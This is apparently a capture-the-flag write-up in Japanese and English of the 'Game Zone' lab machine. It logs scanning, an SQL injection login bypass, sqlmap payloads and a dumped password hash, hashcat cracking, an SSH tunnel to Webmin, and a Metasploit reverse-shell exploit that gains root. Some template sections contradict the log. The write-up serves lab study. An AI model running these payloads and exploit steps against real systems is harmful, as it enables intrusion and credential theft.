

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | 22/tcp open  ssh, 80/tcp open  tcpwrapped |
| 主な侵入経路 | sqli, rce, upload-abuse |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)


## Nmap
```bash
nmap -p- -sC -sV -T4 -A -Pn $ip
✅[0:21][CPU:1][MEM:52][IP:10.11.87.75][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-25 00:22 JST
Nmap scan report for 10.10.121.176
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/25%OT=22%CT=1%CU=35653%PV=Y%DS=2%DC=T%G=Y%TM=671
OS:A695E%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%TS=8)SEQ(SP=10
OS:3%GCD=1%ISR=10F%TI=Z%II=I%TS=8)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=I%TS=8)S
OS:EQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST
OS:11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=6
OS:8DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M
OS:508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   245.33 ms 10.11.0.1
2   247.40 ms 10.10.121.176

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 814.41 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

```bash
✅[0:21][CPU:1][MEM:52][IP:10.11.87.75][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-25 00:22 JST
Nmap scan report for 10.10.121.176
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/25%OT=22%CT=1%CU=35653%PV=Y%DS=2%DC=T%G=Y%TM=671
OS:A695E%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%TS=8)SEQ(SP=10
OS:3%GCD=1%ISR=10F%TI=Z%II=I%TS=8)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=I%TS=8)S
OS:EQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST
OS:11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=6
OS:8DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M
OS:508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   245.33 ms 10.11.0.1
2   247.40 ms 10.10.121.176

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 814.41 seconds
```

22と80だけ開いてた

```bash
✅[0:20][CPU:1][MEM:52][IP:10.11.87.75][/home/n0z0]
🐉 > feroxbuster -u http://$ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.121.176
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      110l      319w     4502c http://10.10.121.176/index.php
200      GET        2l        9w      303c http://10.10.121.176/images/sitesearch_button.gif
200      GET        5l       12w      393c http://10.10.121.176/images/userlogin_enter.gif
200      GET       61l      331w    15477c http://10.10.121.176/images/_image02.gif
200      GET       63l      289w    13184c http://10.10.121.176/images/_image01.gif
200      GET       45l      289w    13913c http://10.10.121.176/images/_image04.gif
200      GET       23l      166w    11180c http://10.10.121.176/images/_image03.gif
200      GET      450l      840w     7026c http://10.10.121.176/style.css
200      GET      110l      319w     4502c http://10.10.121.176/
[>-------------------] - 2m     11064/5095320 2d      found:9       errors:2490
[>-------------------] - 21m   229765/5095320 25h     found:9       errors:24628
[#>------------------] - 21m   301496/5095276 239/s   http://10.10.121.176/ 
```

重要そうなとこはあんま開いてない

脆弱性のスキャン

```bash
❌[0:23][CPU:1][MEM:50][IP:10.11.87.75][/home/n0z0]
🐉 > nikto -h $ip -Tuning 123456789
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.121.176
+ Target Hostname:    10.10.121.176
+ Target Port:        80
+ Start Time:         2024-10-25 00:24:09 (GMT9)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ ERROR: Error limit (20) reached for host, giving up. Last error: opening stream: can't connect (timeout): Operation now in progress
+ Scan terminated: 18 error(s) and 7 item(s) reported on remote host
+ End Time:           2024-10-25 00:34:14 (GMT9) (605 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

重要そうなところは特になし

`' or 1=1 -- -` を入力してSQLインジェクションでログインできる


*Caption: Screenshot captured during game-zone attack workflow (step 1).*


*Caption: Screenshot captured during game-zone attack workflow (step 2).*

ログイン後のページでダンプファイルを取得する


*Caption: Screenshot captured during game-zone attack workflow (step 3).*


*Caption: Screenshot captured during game-zone attack workflow (step 4).*

ダンプしたファイルを読み込ませると

sqlmapが自動でスキャンしてくれる。

```bash
✅[15:05][CPU:1][MEM:50][IP:10.11.87.75][...e/n0z0/work/thm/Game_Zone]
🐉 > sqlmap -r request4.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.9#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:09:06 /2024-10-27/

[15:09:06] [INFO] parsing HTTP request from 'request4.txt'
[15:09:06] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.10.72.193/index.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y

sqlmap resumed the following injection point(s) from stored session:
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-7688' OR 4443=4443#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=cyberops' AND GTID_SUBSET(CONCAT(0x717a627a71,(SELECT (ELT(4115=4115,1))),0x716b766271),4115)-- tYlB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=cyberops' AND (SELECT 4966 FROM (SELECT(SLEEP(5)))fvQe)-- zauW
[15:09:28] [INFO] testing MySQL
[15:09:28] [INFO] confirming MySQL
[15:09:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[15:09:29] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:09:29] [INFO] fetching current database
[15:09:30] [INFO] retrieved: 'db'
[15:09:30] [INFO] fetching tables for database: 'db'
[15:09:30] [INFO] resumed: 'post'
[15:09:30] [INFO] resumed: 'users'
[15:09:30] [INFO] fetching columns for table 'users' in database 'db'
[15:09:30] [INFO] resumed: 'username'
[15:09:30] [INFO] resumed: 'text'
[15:09:30] [INFO] resumed: 'pwd'
[15:09:30] [INFO] resumed: 'text'
[15:09:30] [INFO] fetching entries for table 'users' in database 'db'
[15:09:30] [INFO] resumed: 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14'
[15:09:30] [INFO] resumed: 'agent47'
[15:09:30] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]

do you want to crack them via a dictionary-based attack? [Y/n/q]

[15:13:18] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>

[15:13:25] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]

[15:13:28] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[15:13:28] [INFO] starting 16 processes
[15:13:29] [INFO] current status: MoLap... \^C
[15:13:29] [WARNING] user aborted during dictionary-based attack phase (Ctrl+C was pressed)
[15:13:29] [WARNING] no clear password(s) found
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

ユーザとパスワードハッシュがわかったから復号してsshログインする

hash-identifierでどのハッシュが使われているか確認する

```bash
✅[17:19][CPU:1][MEM:50][IP:10.11.87.75][...e/n0z0/work/thm/Game_Zone]
🐉 > hash-identifier
/usr/share/hash-identifier/hash-id.py:13: SyntaxWarning: invalid escape sequence '\ '
  logo='''   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
--------------------------------------------------
 HASH: ^C
```

ハッシュで複合するとvideogamer124とパスワードがわかる

ちなみにこのハッシュ `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14` は64文字の16進数であり、一般的に **SHA-256** に該当する

```bash
❌[17:18][CPU:1][MEM:50][IP:10.11.87.75][...e/n0z0/work/thm/Game_Zone]
🐉 > hashcat -m 1400 ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 Microsoft Surface (R) Edition, 2777/5618 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218...3efd14
Time.Started.....: Sun Oct 27 17:19:09 2024 (2 secs)
Time.Estimated...: Sun Oct 27 17:19:11 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2561.5 kH/s (0.49ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2891776/14344384 (20.16%)
Rejected.........: 0/2891776 (0.00%)
Restore.Point....: 2883584/14344384 (20.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: vin-100.b -> vida82

Started: Sun Oct 27 17:18:46 2024
Stopped: Sun Oct 27 17:19:12 2024
```

ssを使うとホスト上で動いているソケットを調査する

```
ss -tulpn
```

ポート10000は封鎖しているみたいだった

```
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q   Local Address:Port                  Peer Address:Port
udp    UNCONN     0      0                    *:10000                            *:*
udp    UNCONN     0      0                    *:68                               *:*
tcp    LISTEN     0      128                  *:10000                            *:*
tcp    LISTEN     0      128                  *:22                               *:*
tcp    LISTEN     0      80           127.0.0.1:3306                             *:*
tcp    LISTEN     0      128                 :::80                              :::*
tcp    LISTEN     0      128                 :::22                              :::*
```

サーバの

```bash
❌[17:52][CPU:1][MEM:50][IP:10.11.87.75][/home/n0z0]
🐉 > ssh -L 10000:localhost:10000 agent47@$ip
agent47@10.10.139.187's password:
Permission denied, please try again.
agent47@10.10.139.187's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.

Last login: Sun Oct 27 03:02:47 2024 from 10.11.87.75
+---------------+                            +-------------------+
| Local machine | | Remote server |
| localhost     |                            | 192.168.1.1       |
| 127.0.0.1 | | (agent47 user) |
|               |                            |                   |
|               |                            |                   |
| Port 10000 ------------------------> Port 10000 |
|               |                            |                   |
+---------------+                            +-------------------+

```

### コマンドの各部分とその動作

- **`ssh`**
    
    SSHプロトコルを使って、リモートサーバーに安全に接続します。
    
- **`L 10000:localhost:10000`**
    - `L`はポートフォワーディングを設定するオプションです。この場合、次のように動作します：
    - `10000`：ローカルマシン上でリッスンするポートです。ここにアクセスすることで、リモートサーバーのサービスに接続します。
    - `localhost:10000`：リモートサーバー上の接続先です。SSHトンネルを通じて、リモートサーバーの`localhost`（127.0.0.1）のポート`10000`に接続します。
    
    この設定により、ローカルマシンの`localhost:10000`にアクセスすると、リモートサーバーの`localhost:10000`に接続が転送されるようになります。たとえば、ブラウザで`http://localhost:10000`にアクセスすると、リモートサーバー上のポート10000で動作しているサービスに接続できます。
    
- **`agent47@192.168.1.1`**
    
    リモートサーバーのIP addressとユーザー名です。ここでは、`agent47`というユーザー名で`192.168.1.1`のサーバーに接続します。
    
localhost:10000に接続するとwebmin使っていることがわかる


*Caption: Screenshot captured during game-zone attack workflow (step 5).*

webminの脆弱性を検索すると一番上にそれっぽいのが出てくる

```bash
❌[21:09][CPU:1][MEM:54][IP:10.11.87.75][/home/n0z0]
🐉 > searchsploit webmin 1.580
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploi | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)       | linux/webapps/47330.rb
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

show.cgiが使われている脆弱性を見つけた

```bash
msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .

```

利用する脆弱性を選択する

```
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
```

リバースプロキシしたいから6を選択する

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_python             .                normal  No     Unix Command Shell, Reverse TCP (via Python)
   11  payload/cmd/unix/reverse_python_ssl         .                normal  No     Unix Command Shell, Reverse TCP SSL (via python)
   12  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   13  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   14  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payloads 6
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
PASSWORD => videogamer124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS localhost
RHOSTS => localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
USERNAME => agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST tun0
LHOST => 10.11.87.75
python -c 'import pty; pty.spawn("/bin/bash")'
root@gamezone:/usr/share/webmin/file/#
```

rootフラグ取得

root@gamezone:/usr/share/webmin/file/# find / -iname root.txt 2>/dev/null
find / -iname root.txt 2>/dev/null
/root/root.txt
root@gamezone:/usr/share/webmin/file/# cat /root/root.txt
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
root@gamezone:/usr/share/webmin/file/#

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
認証情報なし。
```

## まとめ・学んだこと

### 4.Overview

---



### CVE Notes

- **CVE-2000-0649**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## 参考文献

- nmap
- rustscan
- nikto
- sqlmap
- metasploit
- sudo
- ssh
- cat
- find
- python
- php
- CVE-2000-0649
- GTFOBins
